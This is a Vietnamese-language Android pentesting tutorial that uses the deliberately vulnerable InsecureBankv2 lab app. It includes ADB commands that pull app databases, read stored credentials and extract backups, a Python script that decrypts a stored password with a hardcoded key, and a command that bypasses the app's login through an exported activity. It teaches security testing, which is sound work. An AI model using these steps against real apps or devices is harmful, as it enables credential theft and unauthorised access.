


# L1: Android Mobile Pentest 101

---

## Bài 1 – Thiết lập môi trường

### Mục tiêu
Tạo được điện thoại Android giả lập phục vụ kiểm thử bảo mật.

### Tại sao cần môi trường giả lập?

Khi pentest ứng dụng Android, việc dùng điện thoại thật tiềm ẩn nhiều rủi ro: mất dữ liệu cá nhân, brick máy, vi phạm bảo hành. Điện thoại giả lập (emulator) cho phép:

- Tạo và xóa thiết bị tùy ý mà không ảnh hưởng phần cứng thật
- Dễ dàng snapshot/restore trạng thái máy
- Kiểm soát hoàn toàn môi trường (API level, cấu hình phần cứng)
- Root máy ảo mà không cần unlock bootloader

### Phần mềm cần cài

| Phần mềm | Mục đích | Link |
|---|---|---|
| VirtualBox | Nền tảng ảo hóa để chạy Genymotion | https://www.virtualbox.org/wiki/Downloads |
| Genymotion | Tạo và quản lý thiết bị Android ảo | https://www.genymotion.com/download/ |

> **Lưu ý:** VirtualBox chỉ đóng vai trò backend. Sau khi cài xong, bạn không cần tương tác trực tiếp với VirtualBox — Genymotion sẽ tự dùng nó.

### Các bước thiết lập

**Bước 1:** Cài VirtualBox trước, sau đó cài Genymotion.

**Bước 2:** Mở Genymotion, tạo thiết bị mới bằng nút **Add**. Trong khóa học này sử dụng:

```
Samsung Galaxy S6 – Android 5.1.0 – API 22 – 1440x2560
```

**Bước 3:** Chọn thiết bị vừa tạo, bấm **Start** để khởi động.

---

??? note "Kiến thức mở rộng: Các lựa chọn emulator khác"
    Ngoài Genymotion, bạn có thể dùng:

    - **Android Studio AVD (Android Virtual Device):** Miễn phí, tích hợp sẵn trong Android Studio. Phù hợp cho developer hơn là pentester vì chậm hơn Genymotion.
    - **Android-x86:** Cài Android lên VM như một hệ điều hành thật, kiểm soát sâu hơn.
    - **Frida + thiết bị thật đã root:** Phù hợp khi cần test các tính năng phần cứng thật (NFC, sensor).

    Genymotion được ưa chuộng trong pentest vì tốc độ khởi động nhanh, hỗ trợ nhiều API level, và đặc biệt là **thiết bị đã root sẵn** — điều cực kỳ quan trọng khi cần truy cập `/data/data/`.

---

## Bài 2 – Android Debug Bridge (ADB)

### Mục tiêu
Sử dụng thành thạo `adb` để tương tác với thiết bị Android (thật hoặc ảo).

### ADB là gì?

**Android Debug Bridge (ADB)** là công cụ dòng lệnh cho phép giao tiếp giữa máy tính và thiết bị Android qua USB hoặc mạng TCP/IP. Đây là công cụ không thể thiếu trong quá trình pentest Android.



### Bật USB Debugging trên thiết bị ảo

Đây là bước bắt buộc để ADB có thể kết nối.

**Bước 1:** Vào `Settings` → `About Phone`

**Bước 2:** Bấm liên tục 7 lần vào trường **Build Number** để mở khóa **Developer Options**

**Bước 3:** Quay lại `Settings` → `Developer Options` → bật **USB Debugging**

### Tìm ADB của Genymotion

Genymotion đi kèm ADB riêng. Bạn cần dùng đúng phiên bản này để tránh xung đột.

=== "macOS"

    ```
    <Chuột phải vào Genymotion.app> → Show Package Contents
    /Contents/MacOS/tools/adb
    ```

=== "Windows"

    ```
    C:\Program Files\Genymobile\Genymotion\tools\adb.exe
    ```

### Kết nối ADB đến thiết bị ảo

Genymotion sử dụng địa chỉ IP mặc định `192.168.56.101`, cổng `5555`.

```bash
# Kết nối đến thiết bị ảo qua mạng
./adb connect 192.168.56.101:5555

# Kiểm tra danh sách thiết bị đang kết nối
./adb devices
```

Kết quả mong đợi:

```
List of devices attached
192.168.56.101:5555    device
```

### Các lệnh ADB thường dùng trong pentest

**Cài APK lên thiết bị:**

```bash
adb install /path/to/app.apk
```

**Truy cập shell của thiết bị:**

```bash
adb shell
# Sau khi vào shell, bạn sẽ thấy prompt:
# root@vbox86p:/ #
```

Vì Genymotion đã root sẵn, bạn có quyền `root` ngay lập tức — điều này cho phép truy cập toàn bộ filesystem kể cả `/data/data/`.

**Xem log hệ thống theo thời gian thực:**

```bash
adb logcat
```

Đây là lệnh cực kỳ hữu ích để phát hiện thông tin nhạy cảm bị lộ qua log (sẽ nói chi tiết ở phần sau).

**Đẩy file từ máy tính lên thiết bị:**

```bash
adb push /path/on/pc /path/on/device

# Ví dụ:
adb push /tmp/exploit.sh /data/local/tmp/exploit.sh
```

**Kéo file từ thiết bị về máy tính:**

```bash
adb pull /path/on/device /path/on/pc

# Ví dụ: lấy database của app về máy để phân tích
adb pull /data/data/com.example.app/databases/app.db ./app.db
```

**Cài APK trực tiếp qua đường dẫn:**

```bash
# Ứng dụng thực hành trong khóa học:
# https://github.com/dineshshetty/Android-InsecureBankv2
adb install InsecureBankv2.apk
```

---

??? note "Kiến thức mở rộng: ADB over WiFi và một số lệnh nâng cao"
    ```bash
    # Forward cổng từ máy tính vào thiết bị (hữu ích khi proxy traffic)
    adb forward tcp:8080 tcp:8080

    # Chụp screenshot
    adb shell screencap -p /sdcard/screen.png
    adb pull /sdcard/screen.png

    # Gỡ cài đặt app
    adb uninstall com.example.app

    # Xem log chỉ của một app cụ thể
    adb logcat --pid=$(adb shell pidof -s com.example.app)

    # Chạy lệnh trực tiếp không cần vào shell
    adb shell "cat /data/data/com.example.app/shared_prefs/*.xml"
    ```

---

## Bài 3 – Phân tích tĩnh (Static Analysis)

### Mục tiêu
Hiểu và thực hiện được các bước phân tích tĩnh trên file APK.

### Phân tích tĩnh là gì?

**Phân tích tĩnh** là quá trình kiểm tra file APK mà **không cần chạy ứng dụng**. Bạn kiểm tra source code (đã decompile), cấu hình, tài nguyên để tìm ra các lỗ hổng bảo mật.

Ngược lại, **phân tích động** (dynamic analysis) là kiểm tra ứng dụng trong lúc nó đang chạy.



---

### Phần 1: Phân tích tự động với MobSF

**MobSF (Mobile Security Framework)** là framework mã nguồn mở, tất-cả-trong-một để kiểm tra bảo mật ứng dụng Android, iOS, và Windows. Nó tự động hóa phần lớn công việc phân tích tĩnh.

#### Cài đặt MobSF

```bash
# Clone repository
git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF.git
cd Mobile-Security-Framework-MobSF

# Tạo và kích hoạt môi trường ảo Python
pip3 install virtualenv
virtualenv -p python3 venv
source venv/bin/activate

# Cài dependencies
pip3 install -r requirements.txt

# Khởi tạo database SQLite
python3 manage.py makemigrations
python3 manage.py migrate

# Chạy server
python3 manage.py runserver
```

Sau khi chạy, truy cập `http://localhost:8000/` bằng trình duyệt.

#### Yêu cầu hệ thống

- Python 3.6+
- Oracle JDK 1.7 trở lên
- macOS cần cài Command-line tools (`xcode-select --install`)

#### Sử dụng MobSF

Kéo thả file `.apk` vào giao diện web. MobSF sẽ tự động phân tích và cung cấp báo cáo về:

**1. Thông tin cơ bản của app:**

```
Package Name:   com.android.insecurebankv2
Main Activity:  com.android.insecurebankv2.LoginActivity
Target SDK:     26
Min SDK:        15
MD5:            0bb3788ed48ab0960109c39a98923445
```

**2. Phân tích quyền (Permissions):**

MobSF phân loại từng permission thành `dangerous` hoặc `normal`. Ví dụ với InsecureBankv2:

| Permission | Mức độ | Ý nghĩa |
|---|---|---|
| `INTERNET` | dangerous | Kết nối mạng tùy ý |
| `WRITE_EXTERNAL_STORAGE` | dangerous | Ghi vào thẻ nhớ |
| `SEND_SMS` | dangerous | Gửi SMS (tốn tiền người dùng) |
| `READ_PHONE_STATE` | dangerous | Đọc IMEI, số điện thoại |
| `READ_CONTACTS` | dangerous | Đọc danh bạ |

!!! warning "Nguyên tắc đánh giá permission"
    Permission `dangerous` không tự nhiên là lỗ hổng. Bạn cần hỏi: **"App này có thực sự cần quyền này không?"** Ví dụ một app đèn pin mà yêu cầu `READ_CONTACTS` thì đó là dấu hiệu đáng ngờ.

**3. Phân tích AndroidManifest.xml:**

MobSF tự động phát hiện các cấu hình nguy hiểm trong Manifest. Với InsecureBankv2:

| Vấn đề | Mức độ | Giải thích |
|---|---|---|
| `android:debuggable=true` | HIGH | App có thể bị attach debugger dễ dàng |
| `android:allowBackup=true` | MEDIUM | Dữ liệu app có thể backup ra ngoài qua ADB |
| Activity `PostLogin` exported | HIGH | Activity này có thể bị gọi từ app khác |
| Content Provider exported | HIGH | Database có thể bị truy cập từ app khác |

---

### Phần 2: Phân tích thủ công với Bytecode Viewer

Công cụ tự động không phát hiện được tất cả mọi thứ. Việc đọc code thủ công là kỹ năng bắt buộc.

**Bytecode Viewer** là tool miễn phí cho phép decompile APK và xem source Java ngay lập tức.

Tải tại: https://github.com/Konloch/bytecode-viewer/releases

#### Cách sử dụng

Kéo file `.apk` vào Bytecode Viewer. Tool sẽ tự động:
1. Giải nén APK
2. Chuyển đổi `.dex` → `.jar` (dùng dex2jar)
3. Decompile bytecode → Java source (dùng JD-Core, CFR, Procyon...)

Bạn có thể chọn các decompiler khác nhau để so sánh kết quả khi một decompiler cho ra code không đọc được.

#### Ví dụ: Phát hiện backdoor trong code

Khi đọc file `DoLogin$RequestTask.class`, phát hiện logic đăng nhập bất thường:

```java
if (this.thiss0.username.equals("devadmin")) {
    // Gửi request đến endpoint /devlogin — bỏ qua kiểm tra password
    localHttpPost2.setEntity(new UrlEncodedFormEntity(localArrayList));
    localHttpResponse = localDefaultHttpClient.execute(localHttpPost2);
} else {
    // Đăng nhập bình thường
    localHttpPost1.setEntity(new UrlEncodedFormEntity(localArrayList));
    localHttpResponse = localDefaultHttpClient.execute(localHttpPost1);
}
```

!!! danger "Phát hiện backdoor"
    Nếu username là `devadmin`, app gửi request đến endpoint `/devlogin` thay vì `/login` thông thường. Endpoint này **không kiểm tra password**, cho phép đăng nhập với bất kỳ mật khẩu nào. Đây là một **hardcoded backdoor** điển hình.

#### Malicious Code Scanner

Bytecode Viewer có plugin **Malicious Code Scanner** để tự động tìm các pattern nguy hiểm như:

- `java/lang/reflect/Method.invoke` — Reflection (có thể dùng để bypass security)
- `java/lang/reflect/Field.setAccessible` — Truy cập field private
- `Runtime.exec()` — Thực thi lệnh hệ thống
- Các API đọc thông tin thiết bị (IMEI, contacts...)

---

### Phần 3: Các kiểm tra thủ công quan trọng

#### Kiểm tra 1: Thông tin đăng nhập lưu không mã hóa trong database

Sau khi đăng nhập vào InsecureBankv2, kiểm tra database SQLite của app:

```bash
# Vào shell thiết bị
adb shell

# Di chuyển đến thư mục database của app
cd /data/data/com.android.insecurebankv2/databases

# Xem danh sách file
ls

# Mở database bằng sqlite3
sqlite3 mydb

# Xem danh sách bảng
.tables

# Đọc dữ liệu
SELECT * FROM names;
```

Nếu kết quả trả về username/password dạng plaintext → **lỗ hổng nghiêm trọng**.

!!! success "Kết quả an toàn"
    Nếu không thấy thông tin nhạy cảm trong database, hoặc dữ liệu được mã hóa đúng cách → Safe.

#### Kiểm tra 2: Thông tin nhạy cảm lưu dưới dạng plaintext

```bash
# Từ thư mục /data/data/com.android.insecurebankv2
# Tìm kiếm đệ quy các từ khóa nhạy cảm
grep -r 'deviceId' $(find .)
grep -r 'password' $(find .)
grep -r 'token' $(find .)
```

Các từ khóa cần kiểm tra: `deviceId`, `uid`, `userId`, `imei`, `phone`, `password`, `token`, `secret`, `apiKey`

#### Kiểm tra 3: File Backup không được mã hóa

Nếu `android:allowBackup=true` trong Manifest, dữ liệu app có thể bị backup ra ngoài:

```bash
# Backup toàn bộ dữ liệu app (trên thiết bị sẽ hiện popup xác nhận)
adb backup -apk -shared com.android.insecurebankv2
# File backup.ab sẽ được tạo ra

# Chuyển đổi sang định dạng có thể đọc
cat backup.ab | (dd bs=24 count=0 skip=1; cat) | zlib-flate -uncompress > backup_compressed.tar

# Giải nén
tar -xvf backup_compressed.tar
```

Kiểm tra các file trong thư mục vừa giải nén, đặc biệt là:
- `apps/<package>/sp/*.xml` — SharedPreferences
- `apps/<package>/db/*` — SQLite databases

Với InsecureBankv2, file `mySharedPreferences.xml` chứa:

```xml
<?xml version='1.0' encoding='utf-8' standalone='yes'?>
<map>
    <string name="superSecurePassword">DTrWZVXjSoFdgOe6lfHxJg==</string>
    <string name="EncryptedUsername">ZGluZXNo</string>
</map>
```

Mật khẩu tuy có vẻ mã hóa, nhưng key nằm ngay trong code — xem tiếp bên dưới.

#### Kiểm tra 4: Thông tin nhạy cảm lộ trong log

```bash
# Xem log theo thời gian thực
adb logcat

# Hoặc filter theo tag cụ thể
adb logcat -s "Successful Login"
```

Sau khi đăng nhập vào InsecureBankv2, log hiển thị:

```
D/Successful Login: account=devadmin:tsu123123
```

!!! danger "Lỗ hổng nghiêm trọng"
    Thông tin đăng nhập bị ghi vào log hệ thống dưới dạng plaintext. Bất kỳ app nào có quyền `READ_LOGS` đều có thể đọc được. Trên thiết bị đã root hoặc qua ADB, ai cũng có thể xem.

#### Kiểm tra 5: Thuật toán mã hóa yếu

Trong `CryptoClass.class`:

```java
public class CryptoClass {
    // Key hardcoded ngay trong code!
    String key = "This is the super secret key 123";

    // IV toàn số 0 — cực kỳ nguy hiểm!
    byte[] ivBytes = {0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};

    public static byte[] aes256encrypt(byte[] iv, byte[] key, byte[] plaintext) {
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        SecretKeySpec keySpec = new SecretKeySpec(key, "AES");
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        return cipher.doFinal(plaintext);
    }
}
```

**Vấn đề:**
1. **Key hardcoded** trong source code — ai decompile cũng thấy
2. **IV toàn số 0** — IV cố định phá vỡ tính bảo mật của CBC mode
3. Dùng AES-CBC nhưng IV không random → cùng plaintext luôn cho cùng ciphertext

**Khai thác:** Dùng key và IV đã biết để giải mã password:

```python
from Crypto.Cipher import AES
import base64

def unpad(data):
    return data[:-data[-1]]

def decrypt(key, ciphertext, iv):
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CBC, iv)
    return cipher.decrypt(ciphertext)

key = "This is the super secret key 123"
iv = b'\x00' * 16
ciphertext = base64.b64decode("DTrWZVXjSoFdgOe6lfHxJg==")

plaintext = unpad(decrypt(key, ciphertext, iv)).decode('utf-8')
print(plaintext)  # Kết quả: Dinesh@123$
```

#### Kiểm tra 6: Activity Hijacking

Nếu một Activity trong Manifest có `android:exported=true`, bất kỳ app nào (hoặc người dùng qua ADB) đều có thể gọi thẳng Activity đó mà không cần đi qua flow đăng nhập bình thường.

```xml
<!-- Trong AndroidManifest.xml -->
<activity
    android:name="com.android.insecurebankv2.PostLogin"
    android:exported="true" />
```

**Khai thác:**

```bash
# Vào shell thiết bị
adb shell

# Gọi thẳng Activity PostLogin bằng Activity Manager
am start -n com.android.insecurebankv2/.PostLogin
```

App sẽ nhảy thẳng vào màn hình sau đăng nhập mà không yêu cầu credentials.

!!! danger "Hậu quả"
    Attacker có thể bypass toàn bộ màn hình login, truy cập trực tiếp vào chức năng chuyển tiền, xem sao kê, đổi mật khẩu mà không cần biết username/password.

---

??? note "Kiến thức mở rộng: Android Security Checklist"

    Ngoài các kiểm tra trong tài liệu này, một pentest Android đầy đủ còn cần kiểm tra:

    **Phân tích tĩnh nâng cao:**
    - Certificate pinning có được implement không, và có thể bypass không
    - Anti-root / Anti-tampering detection có tồn tại không
    - Obfuscation (ProGuard/R8) có được áp dụng không
    - Các API key, token, URL endpoint nhạy cảm trong code/resources
    - WebView có bật JavaScript interface nguy hiểm không (`addJavascriptInterface`)
    - Deep link / Intent handling có bị abuse không

    **Phân tích động:**
    - Intercept HTTPS traffic bằng Burp Suite + certificate pinning bypass
    - Hook function bằng Frida để bypass root detection, certificate pinning
    - Kiểm tra traffic có bị mã hóa đúng cách không
    - Kiểm tra session management (token expiry, logout thực sự xóa token chưa)

    **Tài liệu tham khảo:**
    - [OWASP Mobile Security Testing Guide (MSTG)](https://owasp.org/www-project-mobile-app-security/)
    - [OWASP Mobile Top 10](https://owasp.org/www-project-mobile-top-10/)
    - [Android Security Checklist của WithSecure](https://github.com/muellerberndt/android_app_security_checklist)
    - [InsecureBankv2 — Lab thực hành](https://github.com/dineshshetty/Android-InsecureBankv2)
